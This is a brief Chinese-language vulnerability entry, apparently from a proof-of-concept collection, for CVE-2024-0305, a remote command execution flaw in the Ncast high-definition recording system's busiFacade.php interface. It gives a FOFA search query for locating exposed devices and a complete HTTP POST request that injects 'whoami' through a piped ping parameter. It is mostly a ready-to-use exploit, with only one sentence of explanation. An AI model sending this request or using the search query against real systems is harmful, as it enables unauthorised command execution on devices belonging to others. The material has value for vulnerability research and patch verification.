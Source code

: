 ## Ncast盈可视高清智能录播系统存在RCE漏洞(CVE-2024-0305)

Ncast盈可视高清智能录播系统是广州盈可视电子科技有限公司的一款产品。Ncast盈可视高清智能录播系统/classes/common/busiFacade.php接口存在RCE漏洞，攻击者可以利用此漏洞执行任意命令。


## fofa
```
app="Ncast-产品" && title=="高清智能录播系统"
```

## poc
```
POST /classes/common/busiFacade.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 146
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

%7B%22name%22:%22ping%22,%22serviceName%22:%22SysManager%22,%22userTransaction%22:false,%22param%22:%5B%22ping%20127.0.0.1%20%7C%20whoami%22%5D%7D
```

![052fb9df8c276d297193cd5a59c56fad](../../images/de0f032c-0ce2-4308-8987-ecd93142d133.png)
